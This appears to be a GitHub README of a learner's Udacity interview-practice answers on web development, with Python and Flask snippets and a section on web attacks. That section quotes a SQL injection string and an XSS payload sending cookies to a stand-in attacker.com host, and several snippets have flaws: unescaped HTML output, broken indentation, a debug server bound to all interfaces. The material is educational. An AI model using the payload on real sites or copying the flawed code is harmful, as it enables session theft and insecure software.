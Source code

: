 # udacity-interview-practice-response
**1) What is the most influential book or blog post you’ve read regarding web development?**

The most influential book I have read is, “JavaScript the definitive guide” by David Flanagan
It is a great desk side reference and has good set of examples.

**2) Tell me about a web application you have built. Why did you choose to build it? What did you learn? What challenges did you face and how did you overcome them?**

I built a Neighborhood map web application. It is a single-page application featuring a map of my local neighborhood.
I chose to build it because quite a few businesses applications will want to integrate google maps and customize it to enhance the user experience.

I learned to use Knockout.js library with the MVVM pattern and also researched and integrated with third party apis. (Google Maps, Four Square, Yelp reviews).

There were several challenges, first was understanding what would be the best layout of web page and how to make the page responsive for different devices.
How to customize the map, include map markers, a search function for the locations, and a list view to support simple browsing of all locations making sure to use Knockout.js to accomplish the tasks.
I overcame these challenges by researching online, reading the documentation and using tools like Postman, Chrome developer tools. I also tried out the code in small iterations to understand how the library or api works.

***3)  Write a function in Python that takes a list of strings and returns a single string that is an HTML unordered list `(<UL>...</UL>)` of those strings. You should include a brief explanation of your code. Then, what would you have to consider if the original list was provided by user input?***

```python
'''
The function below takes in a list of strings
and returns them as an HTML unordered list. (<UL>...</UL>)
'''

def generateHtmlList(*args):
	html = "<ul>\n";
	for s in args:
		html += "<li>" + str(s) + "</li>\n"
	html += "</ul>"
	return html

print(generateHtmlList("test1", "test2", "test3"))
```
If the list is provided by user input. We can check that the input string to match only certain allowed characters. (example: only alphanumerics allowed)

***4) List 2-3 attacks that web applications are vulnerable to. How do these attacks work? How can we prevent those attacks?***

**Injection.**

Injection flaws can be SQL, NoSQL, OS and LDAP injection.
These occur when untrusted data is sent to an interpretor as part of a command or query.

Example: SQL injection
```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";

The attacker modifies the ‘id’ parameter value in
their browser to send: ' or '1'='1
```
We can prevent them by keeping data separate from commands, use of safe API that avoids use of interpretor entirely or provides a parametrized interface to access the interpretor or use of ORMs.
Also we can use positive white list for server side validation.

**Broken Authentication**

It involves using of lists of known passwords to break into systems. Application session timeout when not set properly can also cause failed authentication.

Example:
Lists of known passwords are used to break into system.
If there is no automatic threat protection Application can be used to determine if credentials are valid.

Some things to prevent are, using mullti factor authentication.
Not shipping or deploying with default credentials. Making sure to implement a session timeout.

**Cross Site Scripting.**

Occurs whenever an application includes untrusted data into a web page without proper validation or escaping. This allows attackers to execute scripts in the victims browser, hijack there user session, redirect them to malicious sites and or deface websites.

Example:
The application uses untrusted data in the
construction of the following HTML snippet without validation or escaping:
```
(String)page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location='http://www.attacker.com/cgi/bin/cookie.cgi?foo=' + document.cookie </script>'

This attack causes the victim’s session ID to be sent to the attacker’s website.
```
Prevention involves using frameworks that automatically escape XSS.
Escaping untrusted HTTP request data based on the context in the HTML output.



***5) Here is some starter code for a Flask Web Application. Expand on that and include a route that simulates rolling two dice and returns the result in JSON. You should include a brief explanation of your code.***

The code uses python libraries, jsonify and random. The route lets you enter the number of dice to roll. It then generates a random number between 1 and 6 for each of the dice. The sum of the numbers is then returned as json.
```python
from flask import Flask, jsonify
import random
import json

app = Flask(__name__)

@app.route('/')
def hello_world():
 return 'Hello World!'

@app.route('/rolldice/<int:number_of_dice>/JSON')
def rolldiceJSON(number_of_dice):
"""
Gets a random number between 1 and 6 for each of the number_of_dice passed in.
The total amount is printed out.
"""
	total = 0;
	for i in range(number_of_dice):
 		total += random.randint(1,6)
	return jsonify(total=total)


if __name__ == '__main__':
  app.debug = True
  app.run(host='0.0.0.0', port=5000)
```
***6) If you were to start your full-stack developer position today, what would be your goals a year from now?***

My goals would be to understand the business requirements of the position and to deliver projects aligned with them.

Enhance my technical skills with work in Node.js and in AWS Cloud.
Making sure code is well documented, good development documentation provided as needed.

Code defects are low or non-existent. Follow ups done with Code review and client feedback.

Making sure tools and process are in place for good development and automatic checks on the work done.

Deliver value to company through well implemented projects.
Ensure good communication with team and follow up with action plans.
